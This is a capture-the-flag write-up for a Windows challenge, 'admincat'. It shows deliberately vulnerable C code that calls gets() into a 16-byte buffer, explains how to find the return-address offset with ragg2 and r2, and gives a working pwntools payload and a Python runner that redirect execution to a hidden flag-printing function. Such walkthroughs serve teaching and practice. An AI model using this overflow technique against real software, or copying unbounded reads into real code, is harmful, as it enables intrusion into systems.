




# **admincat**

this is an exe so it will be different from the rest but still the concept is same

## Goal

Call the hidden function `admin_shell()` (which runs `type flag.txt`) by overflowing the local buffer and overwriting the saved return address.

---

## Vulnerable source

Key parts of `source.c`:

```c
#define DEFAULT_LEN 16

void admin_shell(void) {
    system("type flag.txt");
}

int main(void) {
    char buff[DEFAULT_LEN] = {0};
    gets(buff);                // UNBOUNDED read — classic buffer overflow
    for (int i = 0; i < DEFAULT_LEN; i++) buff[i] = toupper(buff[i]);
    printf("%s\n", buff);
}
```

`gets()` reads until newline / EOF without bounds checking ⇒ **stack-based buffer overflow**. The program compiles as 32‑bit PE and `admin_shell` exists in the binary — we can overwrite the saved return address to point to it.


## Finding the correct overwrite offset

You must discover how many bytes from the start of `buff` to the saved return address.

### Using ragg2

we can find the offset by using `ragg2` tool and `r2` 

to genetrate the cyclick pattern use the following commands 


```bash
ragg2 -P 40 -r
```



now we will open the binary in `r2` and find the offset at which the return address is overwritten eventually giving us the offset of the return address



now lets use the `wopO` command to find the offset




---

## Crafting the payload

* Offset to saved return address: **32** bytes.
* Target return address (`admin_shell`): **0x001e1500** (32-bit).
* Little-endian packing: `p32(0x001e1500)`.

```python
from pwn import *

OFFSET = 32                 
ADMIN_ADDR = 0x001e1500 
             
payload = b'A'*OFFSET + p32(ADMIN_ADDR)
open('payload.bin','wb').write(payload)
```

this will write the bytes in the payload.bin file which we can then use in windows to get too the function


---

## Running the exploit (PowerShell)


i will use the subprocess runner:

```python
import subprocess

with open("payload.bin", "rb") as f:
    payload = f.read()

subprocess.run([r".\chall.exe"], input=payload)

```

Then:

```powershell
python3 win.py
```



and there we go we got the flag

---

## Note

pwntools is flaky on native Windows — run it in WSL/VM or from Linux for reliability.
Exploit payloads contain non‑printable bytes (e.g. `\x00`) so clipboard pastes will corrupt them.
Never paste payloads into a terminal; use a binary file and pipe/redirect (e.g. `type payload.bin | chall.exe` or Start‑Process with `-RedirectStandardInput`).
Alternatively use a small Python runner that reads `payload.bin` and does `subprocess.run([r".\\chall.exe"], input=payload)`.
If testing a PE from Linux, run the exe under `wine` with pwntools or test natively on Windows to avoid platform quirks. but i would not recommend wine